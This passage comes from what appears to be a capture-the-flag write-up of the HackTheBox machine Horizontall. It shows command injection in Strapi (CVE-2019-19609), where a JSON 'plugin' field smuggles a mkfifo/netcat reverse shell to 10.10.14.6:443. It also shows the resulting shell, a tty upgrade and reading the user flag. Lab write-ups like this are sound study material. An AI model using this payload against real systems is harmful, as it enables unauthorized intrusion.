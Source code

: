 

That's RCE. I'll look at how they patched this in [Beyond
Root](#cve-2019-19609).

#### Shell

To make that return a reverse shell, I'll use the reverse shell payload
used in the blog post:



    {"plugin": "documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f)", "port": "1337"}



On sending, with `nc` listening on 443, it returns a shell:



    oxdf@hacky$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.125] 46108
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)



I'll upgrade the shell using the `script` trick:



    $ script /dev/null -c bash
    Script started, file is /dev/null
    strapi@horizontall:~/myapi$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    strapi@horizontall:~/myapi$ 



There's one user on the box, developer, and I can read `user.txt` from
their home dir:



    strapi@horizontall:/home/developer$ cat user.txt
    e0f97f93************************



## Shell as root

### Enumeration

#### Identify Service
